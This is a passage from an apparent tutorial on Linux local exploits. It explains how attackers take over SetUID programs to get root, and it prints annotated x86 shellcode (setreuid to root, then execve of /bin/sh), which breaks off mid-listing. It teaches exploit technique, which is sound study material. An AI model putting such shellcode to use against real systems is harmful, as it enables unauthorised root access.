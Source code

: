 For more information on stack overflows, have a look at the paper [Smashing the Stack for Fun and Profit](http://insecure.org/stf/smashstack.html) by Aleph One.

## Local Exploits {#local_exploits}

If you haven\'t done any real research on vulnerabilities and exploits, that\'s fine. This section will briefly cover what you need to know.

Some programs on Linux run with root, or superuser privilege. For example, programs that need access to the /etc/shadow file require root access, since the shadow file is inaccessible to normal users. If a user can take control of these programs and have the program run a shell, the shell will run as the same user as the program, which is root. From there, the attacker can run whichever program he chooses with root access, which means he has full control of the system.

So the steps are:

-   Find a SetUID program (ie, a program that runs as root)
-   Find a vulnerability in the program
-   Exploit it

The way to exploit the vulnerability is to trick the program into running arbitrary machine code, supplied by the attacker. The machine code, of course, represents assembly instructions. This machine code is called \"shellcode\", because it traditionally spawns a shell for the attacker.

## Shellcode

Here is some standard shellcode, with annotations. I won\'t explain what this does, because you should know how every line works, by now. The only tricky part is the Linux system call, which is explained in the comments:

        ;;;;;;;;
        ; Name: shellcode.asm
        ; Author: Jon Erickson
        ; Date: March 24, 2005
        ; To compile: nasm shellcode.asm
        ; Requires: nasm <http://nasm.sourceforge.net>
        ;
        ; Purpose: This is similar to shellcode.asm except that it
        ; uses more condensed code and some tricks like xor'ing a
        ; variable with itself to eliminate null (00) bytes, which
        ; allows it to be stored in an ordinary string.
        ;;;;;;;;
        BITS 32

        ; setreuid(uid_t ruit, uid_t euid)
        xor eax, eax        ; First eax must be 0 for the next instruction
        mov al, 70          ; Put 70 into eax, since setreuid is syscall #70
        xor ebx, ebx        ; Put 0 into ebx, to set the real uid to root
        xor ecx, ecx        ; Put 0 into ecx, to set the effective uid to root
        int 0x80            ; Call the kernel to make the system call happen

        jmp short two       ; jump down to the bottom to get the address of "/bin/sh"
      one:
        pop ebx             ; pop the "return address" from the stack
                            ; to put the address of the string into ebx
        ; execve(const char *filename, char *const argv [], char *const envp[])
        xor eax, eax        ; Clear eax
        mov [ebx+7], al     ; Put the 0 from eax after the "/bin/sh"
        mov [ebx+8], ebx    ; Put the address of the string from ebx here
        mov [ebx+12], eax   ; Put null here
